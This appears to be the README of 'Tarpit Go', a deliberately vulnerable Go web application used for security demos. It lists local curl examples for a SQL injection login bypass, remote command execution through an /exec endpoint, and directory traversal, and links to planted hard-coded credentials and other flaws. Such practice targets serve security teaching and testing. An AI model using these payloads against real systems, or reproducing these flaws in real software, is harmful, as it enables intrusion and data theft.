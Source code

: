 # Tarpit Go

**Demo steps**
1. Start containers:
```
cd <tarpit_go>
docker-compose up
```
2. Visit http://localhost:3000/login to see the demo; (There are also curl commands version attached)
3. Tear down the environment:
```
control + C
docker-compose down
```

**curl version**
1. Sql injection demo: 
//password='12346" OR ""="'
```
curl -X POST -d "username=admin&password=12346%22+OR+%22%22%3D+%22" http://localhost:3000/login
```
2. Remote code execution:
```
curl -X POST -d "cmd=ls -a" http://localhost:3000/exec
```
3. Directory traversal demo: (login first)
```
curl -X GET http://localhost:3000/image/../demo/demo.go
```
4. Hard Coded credentials:

[https://github.com/AiolosLiu/tarpit_go/blob/master/auth.go#L19](https://github.com/AiolosLiu/tarpit_go/blob/master/auth.go#L19)

5. Sensitive data leak:

[https://github.com/AiolosLiu/tarpit_go/blob/master/auth.go#L26](https://github.com/AiolosLiu/tarpit_go/blob/master/auth.go#L26)

6. Insider attack:

[https://github.com/AiolosLiu/tarpit_go/blob/master/vulns.go#L73](https://github.com/AiolosLiu/tarpit_go/blob/master/vulns.go#L73)

7. Business logic flaw:

[https://github.com/AiolosLiu/tarpit_go/blob/master/workflow.go#L100](https://github.com/AiolosLiu/tarpit_go/blob/master/workflow.go#L100)
